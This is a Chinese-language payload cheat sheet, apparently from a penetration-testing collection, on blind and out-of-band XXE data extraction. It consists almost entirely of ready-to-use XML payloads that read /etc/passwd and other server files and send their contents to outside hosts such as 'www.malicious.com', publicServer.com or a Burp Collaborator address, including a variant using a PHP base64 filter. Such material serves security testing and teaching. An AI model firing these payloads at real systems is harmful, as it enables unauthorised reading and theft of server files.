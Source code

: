 ## 利用盲XXE进行带外数据提取

有时页面不会输出结果，但您仍然可以通过带外攻击提取数据。

### 基本盲XXE

测试盲XXE的最简单方法是尝试加载远程资源，例如Burp Collaborator。

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

```xml
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net'>]>
<root>&test;</root>
```

发送`/etc/passwd`的内容到“www.malicious.com”，您可能会收到第一行。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

### 带外XXE

> Yunusov, 2013

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

存储在http://publicServer.com/parameterEntity_oob.dtd上的文件
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

### 使用DTD和PHP过滤器的带外XXE

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

存储在http://127.0.0.1/dtd.xml上的文件
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```
